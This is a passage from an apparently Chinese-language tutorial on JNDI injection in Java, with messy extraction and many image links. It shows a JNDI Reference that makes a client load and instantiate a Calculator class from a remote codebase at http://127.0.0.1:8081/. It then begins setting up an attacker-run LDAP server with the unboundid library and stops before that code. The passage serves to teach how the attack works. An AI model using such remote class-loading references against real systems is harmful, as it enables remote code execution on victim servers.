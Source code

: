       
}            
  
  
}  
  
   
  
  
reference 指定了一个 Calculator 类，于远程的   
http://127.0.0.1:8081/  
 服务端上，等待客户端的调用并实例化执行。  
  
Reference  
  
reference  
  
=  
  
new  
  
Reference  
(  
"Calculator","Calculator","http://127.0.0.1:8081/"  
);  
  
   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWvMqo6Rr0K41uUU2lMicE5Nwhd9ZJGdXBRicTK1MOnGdgxKnCvkXfM3mPC5L0L9CByHDEYPAiceGhtA/640?wx_fmt=png "")  
  
   
  
   
  
   
  
   
### JNDI+LDAP  
#### 1、基础环境  
  
1、我们先在java目录下新建一个jndi_ldap_injection包  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWvMqo6Rr0K41uUU2lMicE5NXkZicOO2QHPLP4ws7qNjciaNVvStq6ibI2FzrPicogqgslfib90VdlT9jyA/640?wx_fmt=png "")  
  
   
  
   
  
2、攻击者搭建LDAP服务器，需要导入unboundid依赖库。  
  
在本项目根目录下创建/lib目录，用于放置本地依赖库，点击下载   
unboundid-ldapsdk-3.2.0.jar  
，导入依赖即可，  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWvMqo6Rr0K41uUU2lMicE5NHy8tia5JEsvaBpebm03w6bRvy0Dv2DeiaOt0Rl0GjicU4ceNicSzoef6kg/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWvMqo6Rr0K41uUU2lMicE5NpYaKjUc2V5gczUJ06H5ic3JXe7PhHRZ2L1wTB0icop8OHxekG6Cft29g/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWvMqo6Rr0K41uUU2lMicE5NG44uLjS3TYAFJlWjWUWT6Ray1kmX0KzlHJ9BqbEXWlwyiacxK2ssIoA/640?wx_fmt=png "")  
  
   
  
   
  
3、创建LDAP的服务端和客户端的代码  
  
